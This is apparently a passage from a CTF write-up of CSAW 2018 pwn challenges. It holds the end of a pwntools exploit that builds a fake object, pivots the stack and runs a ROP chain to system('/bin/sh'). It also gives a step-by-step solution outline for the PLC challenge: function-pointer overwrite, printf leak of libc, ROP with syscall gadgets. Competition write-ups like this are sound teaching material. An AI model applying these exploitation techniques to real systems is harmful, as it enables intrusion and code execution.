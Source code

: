 ```python
leak = sh.recvuntil("\n")
obj_addr = int(leak, 16)

rop_pivot = p64(0x400ac0) #pop rbp ret
rop_pivot += p64(obj_addr + 8 + 0x20 + 0x10 + 0x30)
rop_pivot += p64(LEAVE_RET) + p64(0)

fake_turtle = p64(obj_addr + 8 + 0x20 - 0x40)
fake_turtle += rop_pivot
fake_turtle += p64(obj_addr + 8 + 0x20 + 0x10) + p64(0)
#----------------
fake_turtle += p64(0) + p64(obj_addr + 8 + 0x20 + 0x10 + 0x10) #pop 5 ret
fake_turtle += p64(0x400d3c) + p64(0) * 3 #pop 5 ret
fake_turtle += 'a' * 8 + p64(POP_RDI_RET) + p64(libc_addr + next(e.search('/bin/sh\x00')))
fake_turtle += p64(libc_addr + e.symbols["system"]) #0x30 one_gadget

sh.send(fake_turtle)

sh.interactive()
```

//todo

## 300 Pwn / PLC ##

**Description**

> We've burrowed ourselves deep within the facility, gaining access to the programable logic controllers (PLC) that drive their nuclear enrichment centrifuges. Kinetic damage is necessary, we need you to neutralize these machines.
> 
> You can access this challenge at https://wargames.ret2.systems/csaw_2018_plc_challenge
> 
> NOTE The wargames platform is out of scope for this challenge, just use it to do the pwnable challenge. Any kind of scanning or misuse will get your ip banned! However, if you do happen to find any security issues, please email us at `contact at ret2.io`

**No files provided**

**Solution** (by [Mem2019](https://github.com/Mem2019))

1. use `x` command to dump the binary, so that we can cheat using IDA.
2. after some reversing, we found that there is overflow and no null termination when we fill `enrichment` string
3. There is a function pointer just after it, which should point to `sub_AB0`, we can leak pie first
4. then after some debugging, we know that when we call that function pointer, the `rdi` points to `enrichment`
5. change that function to `printf`, so we can leak the `libc` address
6. then change it to a ROP gadget, which can let the program go to our ROP chain, 
7. because there is a 128-length buffer that we can control in stack
8. use return to syscall using gadgets in libc, since the original `execve` is disabled
